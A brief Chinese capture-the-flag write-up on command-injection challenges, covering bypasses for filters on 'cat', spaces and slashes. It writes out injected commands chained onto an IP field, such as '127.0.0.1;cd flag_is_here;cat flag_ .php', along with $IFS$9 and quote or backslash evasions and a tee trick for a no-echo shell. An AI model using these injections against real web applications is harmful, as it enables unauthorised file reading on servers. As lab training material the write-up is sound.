 #### 8

这里一个无回显shell

使用管道符

cat /flag | tee 1.txt

之后访问1.txt即可

有一个基本方法：一句话木马

![img](https://s2.loli.net/2025/01/18/H2taheXBkRIAC8o.png)

#### 过滤cat

进入之后连接ls一下，发现以下内容

![img](https://s2.loli.net/2025/01/18/GikgJnBACxbQYzc.png)

文字中提示屏蔽了cat字符

尝试一下绕过，用''和\以及tac都行，显示如下

![img](https://s2.loli.net/2025/01/18/O5KNfjsFA7iQbnD.png)

#### 过滤空格

这里进来老样子ls一下

127.0.0.1;s

出现如下

![img](https://s2.loli.net/2025/01/18/zDB2lfryFvUZsPe.png)

用$IFS$9来代替空格即可

![img](https://s2.loli.net/2025/01/18/gDhK7sXuTcG1nxN.png)

#### 过滤目录分隔符

ls之后发现

![img](https://s2.loli.net/2025/01/18/tSBhEx8U2THvPZQ.png)

ls这个文件一下，用\代替/符号即可。ls \flag_is_here

![img](https://s2.loli.net/2025/01/18/zaKZVgJWxkbAocl.png)

发现了flag的内容

cd进去打开即可

127.0.0.1;cd flag_is_here;cat flag_        .php

发现内容
